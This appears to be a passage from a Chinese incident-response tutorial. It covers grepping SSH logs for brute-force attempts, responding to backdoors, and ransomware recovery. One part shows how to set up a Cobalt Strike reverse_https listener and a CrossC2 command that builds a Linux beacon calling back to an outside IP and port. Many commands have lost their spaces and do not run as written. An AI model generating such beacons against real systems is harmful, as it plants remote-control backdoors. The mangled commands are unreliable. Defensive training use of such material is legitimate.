 `grep-o"Failedpassword"/var/log/secure|uniq-c-
`

2、输出登录爆破的第一行和最后一行，确认爆破时间范围

`grep"Failedpassword"/var/log/secure|head-1grep"Failedpassword"/var/log/secure|tail-1-
`

3、进一步定位有哪些 IP 在爆破？

`grep"Failedpassword"/var/log/secure|grep-E-o"(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[04][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][09]?)"|uniq-c|sort-nr-
`

4、爆破用户名字典都有哪些？

`grep"Failedpassword"/var/log/secure|perl-e'while($_=<>){/for(.*?)from/;print"$1\n";}'|uniq-c|sortnr-
`

5、登录成功的日期、用户名、IP

`grep"Accepted"/var/log/secure|awk'{print$1,$2,$3,$9,$11}'grep"Accepted"/var/log/secure|awk'{print$11}'|sort|uniq-c|sort-nr|more-
`

### （二）控制响应-后门木马（webshell、PC）

windows：默认配置测试 注：windows高版本网络信息获取不全（win2012及以上）

linux：借助 CrossC2 项目

`netstat-ntulp-
`

https://github.com/gloxec/CrossC2

https://github.com/darkr4y/geacon

参考过程：http://www.adminxe.com/1287.html

1.项目上传至CS服务端目录，给予执行权限

2.配置监听器：监听器为windows/beacon\_https/reverse\_https 注：如果是阿里云记得端口放行，同时需要关闭linux默认防火墙

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhLyk1SqqGg43LfWQmYdImZ23vFogqY4BjhdGgMOnQI5TYib0LXsBt1Kw%2F640%3Fwx_fmt%3Dpng)

3.生成后门：-

`./genCrossC2.Linux47.99.49.655566nullnullLinuxx64C2-
`

通过网络监听工具及 windows 日志分析或执行记录查找后门问题

### （三）危害响应-病毒感染(勒索 WannaCry)-Windows

详细说明中毒表现及恢复指南

https://lesuobingdu.360.cn/

